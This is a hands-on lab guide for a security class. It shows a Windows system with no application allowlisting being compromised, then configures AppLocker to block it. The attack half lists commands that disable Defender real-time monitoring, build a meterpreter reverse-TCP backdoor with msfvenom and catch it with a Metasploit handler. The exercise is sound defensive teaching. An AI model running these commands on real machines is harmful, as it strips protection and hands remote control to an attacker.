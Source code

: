 
# AppLocker


Applocker Instructions:

Let’s see what happens when we do not have AppLocker running.  We will set up a simple backdoor and have it connect back to the Ubuntu system.  Remember, the goal is not to show how we can bypass EDR and Endpoint products.  It is to create a simple backdoor and have it connect back.

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.

Thankfully, we have a couple of scripts that greatly simplify this process.  Please make sure both your Windows and your Linux systems are running.

Let’s get started by opening a Terminal as Administrator

![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux system, please run the following command:

$`ifconfig`

![](attachments/Clipboard_2020-06-12-12-35-15.png)

Please note the IP address of your Ethernet adapter.  



Please note that my adaptor is called eth0 and my IP address is 172.26.19.133.   Your IP Address and adapter name may be different.

Please note your IP address for the ADHD Linux system on a piece of paper:



Now, run the following commands to start a simple backdoor and backdoor listener: 

$ `sudo su -`
Please note, the adhd password is adhd.

`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444 
-f exe -o /tmp/TrustMe.exe`

`cd /tmp`

`ls -l TrustMe.exe`


`cp ./TrustMe.exe /mnt/c/tools`


Now, let's start the Metasploit Handler.  First, open a new Ubuntu Terminal by clicking the down carrot then selecting Ubuntu-18.04.

Let's become root.

`sudo su -`

root@DESKTOP-I1T2G01:/tmp# `msfconsole -q`

msf5 > `use exploit/multi/handler`

msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > `set LHOST 172.26.19.133`

Remember, your IP will be different!

msf5 exploit(multi/handler) > `exploit`


It should look like this:

![](attachments/Clipboard_2020-06-12-12-46-10.png)


Now, let’s download the malware and run it!

First, let's open a Windows command prompt.  Simply select the down carrot from the Windows Terminal and select Command Prompt.

Once the prompt is open, let's run the following commands to run the TrustMe.exe file.

`cd \tools`


Then, run it.

`TrustMe.exe`


Back at your Ubuntu prompt, you should have a metasploit session!

![](attachments/Clipboard_2020-06-12-12-55-11.png)


Now, let’s stop this from happening!

First, let’s configure AppLocker.  To do this we will need to access the Local Security Policy on your Windows System.

Simply press the Windows key (lower left hand of your keyboard, looks like a Windows Logo)  then type Local Security.  It should bring up a menu like the one below, please select Local Security Policy.

![](attachments/Clipboard_2020-06-12-12-55-55.png)


Next, we will need to configure AppLocker.  To do this, please go to Security Settings > Application Control Policies and  then AppLocker.


![](attachments/Clipboard_2020-06-12-12-57-02.png)



In the right hand pane, you will see there are 0 Rules enforced for all policies.  We will add in the default rules.  We will choose the defaults because we are far less likely to brick a system.

![](attachments/Clipboard_2020-06-12-12-58-38.png)


Please select each of the above Rule groups (Executable, Windows Installer, Script and Packaged) and for each one, right click in the area that says “There are no items to show in this view.” and then select “Create Default Rules”


![](attachments/Clipboard_2020-06-12-12-59-57.png)

This should generate a subset of rules for each group.  It should look similar to how it does below: 


![](attachments/Clipboard_2020-06-12-13-00-24.png)

Next, we need to enforce the rules:


To do this you will need to select ApLocker on the far left pane.  Then, you will need to select Configure rule enforcement.  This will open a pop-up, you will need to check Configured for each set of rules

![](attachments/Clipboard_2020-06-23-10-45-07.png)



Now, we will need to start the Application Identity service.  This is done through pressing the Windows key and typing Services.  This will bring up the Services App.  Please select that and then double-click “Application Identity.”

![](attachments/Clipboard_2020-06-12-13-00-54.png)

Once the Application Identity Properties dialog is open, please press the Start button.  This will start the service.

![](attachments/Clipboard_2020-06-12-13-01-27.png)

Next, open a command prompt and run gpupdate to force the policy change

C:\ `gpupdate /force`

Next, log out as ADHD and log back in as allowlist.  

You can do this easily by selecting the Windows icon and then the little wite user icon:

![](attachments/Clipboard_2020-06-15-09-00-39.png)

The password is ADHD.

![](attachments/Clipboard_2020-06-15-08-46-49.png)



Now, navigate to the C:>\Tools directory with Windows Explorer and try to run some of the .exe files.

![](attachments/Clipboard_2020-06-15-08-48-09.png)

You will see that most of the .exe files will generate an error.




Now, let's surf to your Linux system, download the malware and try to run it again.








You should get an error.

To finish this lab, simply restart your class VM and log in as ADHD.






